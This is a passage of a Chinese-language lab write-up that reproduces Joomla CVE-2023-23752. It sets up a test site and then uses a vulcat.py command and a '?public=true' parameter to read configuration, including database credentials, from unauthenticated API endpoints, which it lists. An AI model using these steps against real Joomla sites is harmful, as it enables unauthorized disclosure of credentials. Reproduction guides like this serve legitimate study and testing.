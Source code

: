 8. 输入账号密码
* 密码强制要求12位，否则无法安装
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/08.png" alt=""><figcaption></figcaption></figure>

9. 输入数据库信息
* phpstudy默认的MySQL账号为：root
* phpstudy默认的MySQL密码为：root
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/09.png" alt=""><figcaption></figcaption></figure>

10. 点击安装，如果看到Joomla的Logo则说明安装正在进行，稍等一会
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/10.png" alt=""><figcaption></figcaption></figure>

11. 安装完成之后，点击“完成并打开前台”
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/11.png" alt=""><figcaption></figcaption></figure>

12. 如果提示“无法删除installation目录”，则需要手动删除
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/12.png" alt=""><figcaption></figcaption></figure>
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/13.png" alt=""><figcaption></figcaption></figure>

13. 删除installation目录之后，再次回到前台，可以看到Joomla页面
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/14.png" alt=""><figcaption></figcaption></figure>

### 漏洞复现

```
python vulcat.py -u <URL> -a joomla -v cve-2023-23752

# 注意, vulcat-v2.0.0版本及以上, 应使用以下命令
python3 vulcat.py -u <URL> -v cve-2023-23752
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/15.png" alt=""><figcaption></figcaption></figure>

可以看到Joomla的配置信息
* 包括数据库的账号密码
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/joomla/cve-2023-23752/16.png" alt=""><figcaption></figcaption></figure>

其他受影响的API
* 只需要添加 ?public=true 即可未授权访问

```
v1/banners
v1/banners/:id
v1/banners
v1/banners/:id
v1/banners/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories/:id
v1/banners/:id/contenthistory
v1/banners/:id/contenthistory/keep
v1/banners/:id/contenthistory
v1/config/application
v1/config/application
v1/config/:component_name
v1/config/:component_name
```